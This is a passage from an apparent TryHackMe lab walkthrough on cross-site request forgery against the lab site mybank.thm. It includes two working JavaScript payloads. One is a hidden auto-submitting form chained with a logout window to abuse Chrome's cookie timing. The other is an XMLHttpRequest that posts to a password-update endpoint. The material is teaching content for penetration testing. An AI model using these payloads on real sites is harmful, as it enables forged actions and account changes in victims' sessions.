 * This is because the `isBanned` cookie was not forwarded by the browser during the request.\

* So, what is the solution here? We can exploit the Chrome feature that sends the cookies in each web request if modified in the last 2 minutes. As a pentester, it is essential to understand each web request and response. The `isBanned` cookie value is updated in two instances, once during login and the other during logout.
* We can chain the process to make the user visit the logout link; once he is logged out and the `isBanned` cookie is updated, we have a 2-minute window to call `index.php` to update the isBanned cookie value.
* Here is the code that will take the user to the logout page and then make a call to `index.php` with the updated `isBanned` cookie value.\


```javascript
<script>
function launchAttackSuccess(){
let win = window.open("http://mybank.thm:8080/logout.php",'');
setTimeout(function(){win.close();bank.submit()},1000)
}
</script>
<form style="display:none" name="bank" 
method=post action="http://mybank.thm:8080/index.php">
<input name="isBanned" value="true">
<input type="submit">
</form> 
```

* Click on the `Successful Attack` button, which will first log out the user, then make a POST request to `index.php`, and update the `isBanned` cookie value. Chrome will forward the cookie in the request as it is updated in less than 2 minutes.\


![user banned message](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/0f234faf633173af4c657383528ebef9.png)\


## Few Additional Exploitation Techniques

﻿XMLHttpRequest Exploitation

In the context of an AJAX request, CSRF is like someone making your web browser unknowingly send a request to a website where you're logged in. It's as if someone tricked your browser into doing something on a trusted site without your awareness, potentially causing unintended actions or changes in your account. CSRF attacks can still succeed even when AJAX requests are subject to the [Same-Origin Policy (SOP)](https://en.wikipedia.org/wiki/Same-origin\_policy), which typically forbids cross-origin requests.&#x20;

\
![ajax csrf exploitation process](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/5f206941b7f37e0f00f126aa6ba492ff.svg)

Here's an example of how an attacker can update a password on `mybank.thm` and send an asynchronous request to update the email seamlessly.

```javascript
<script>
        var xhr = new XMLHttpRequest();
        xhr.open('POST', 'http://mybank.thm/updatepassword', true);
        xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr.onreadystatechange = function () {
            if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                alert("Action executed!");
            }
        };
        xhr.send('action=execute&parameter=value');
    </script>
```
